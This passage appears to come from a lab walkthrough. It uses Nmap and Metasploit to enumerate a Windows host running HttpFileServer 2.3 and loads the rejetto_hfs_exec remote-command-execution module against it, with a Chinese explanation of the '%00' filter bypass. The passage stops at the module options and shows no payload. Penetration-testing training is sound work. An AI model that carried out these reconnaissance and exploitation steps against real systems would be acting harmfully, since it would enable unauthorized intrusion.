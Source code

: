```
[*] Nmap: OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 86.99 seconds
```

```
msf5 > hosts

Hosts
=====

address      mac  name  os_name      os_flavor  os_sp  purpose  info  comments
-------      ---  ----  -------      ---------  -----  -------  ----  --------
10.0.19.137             Windows 8.1                    client         

msf5 > services
Services
========

host         port   proto  name               state  info
----         ----   -----  ----               -----  ----
10.0.19.137  80     tcp    http               open   HttpFileServer httpd 2.3
10.0.19.137  135    tcp    msrpc              open   Microsoft Windows RPC
10.0.19.137  139    tcp    netbios-ssn        open   Microsoft Windows netbios-ssn
10.0.19.137  445    tcp    microsoft-ds       open   Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
10.0.19.137  3389   tcp    ssl/ms-wbt-server  open   
10.0.19.137  49152  tcp    msrpc              open   Microsoft Windows RPC
10.0.19.137  49153  tcp    msrpc              open   Microsoft Windows RPC
10.0.19.137  49154  tcp    msrpc              open   Microsoft Windows RPC
10.0.19.137  49155  tcp    msrpc              open   Microsoft Windows RPC
```

```
msf5 > search type:exploit name:rejetto

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution
```

[Rejetto HttpFileServer Remote Command Execution](https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec/)

Rejetto HttpFileServer 远程命令执行

由于文件 ParserLib.pas 中的正则表达式不佳，Rejetto HttpFileServer (HFS) 容易受到远程命令执行攻击。该模块通过使用“%00”绕过过滤来利用 HFS 脚本命令。此模块已在 Windows XP SP3、Windows 7 SP1 和 Windows 8 上的 HFS 2.3b 上成功测试。

```
msf5 > use exploit/windows/http/rejetto_hfs_exec
msf5 exploit(windows/http/rejetto_hfs_exec) > show options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.0.19.137      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
```